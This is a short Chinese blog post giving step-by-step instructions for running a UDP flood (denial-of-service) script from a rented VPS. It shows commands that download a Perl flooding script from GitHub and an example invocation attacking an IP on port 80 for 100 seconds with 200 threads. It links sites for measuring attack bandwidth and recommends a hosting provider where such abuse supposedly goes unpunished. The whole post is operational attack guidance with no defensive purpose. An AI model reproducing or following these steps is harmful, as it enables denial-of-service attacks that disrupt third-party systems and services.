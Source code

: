 # [ALP本机发包脚本使用方法说明](https://www.beggar.tk/9.html)

> 作者: [Laowang](https://www.beggar.tk/author/1/)
> 时间: 2019-10-12
> 分类: [默认分类](https://www.beggar.tk/category/default/)

本机发包脚本使用方法说明.

登陆VPS，执行命令

CentOS:

```bash
yum update -y
yum install wget perl dstat -y
wget https://raw.githubusercontent.com/whunt1/ALP_Script/master/udp.pl
```

Debian & Ubuntu:

```bash
apt-get update -y
apt-get install wget perl dstat -y
wget https://raw.githubusercontent.com/whunt1/ALP_Script/master/udp.pl
```

执行命令：`perl udp.pl IP port thread time(s).`

如要攻击1.2.3.4，80端口攻击100秒

`perl udp.pl 1.2.3.4 80 200 100`

这里的200是线程，根据VPS网络性能自己决定.

监控网络状况可以输入 `dstat` 查看.

要查看打出多少流量，可以访问下面几个测量的墙.

[vedbex]( https://www.vedbex.com/tools/dstat )

[ddosfilter]( http://ddosfilter.net/layer4.php )

[cyber-hub](https://cyber-hub.net/layer4.php)

[toolsmania](https://www.toolsmania.net/dstat_layer4.php)

[dstat.live](https://dstat.live/)

什么？不知道用那里的机器发包？

scaleway online旗下的 只要你别一直打 基本没事.

[scaleway官网](https://www.scaleway.com/)

标签: none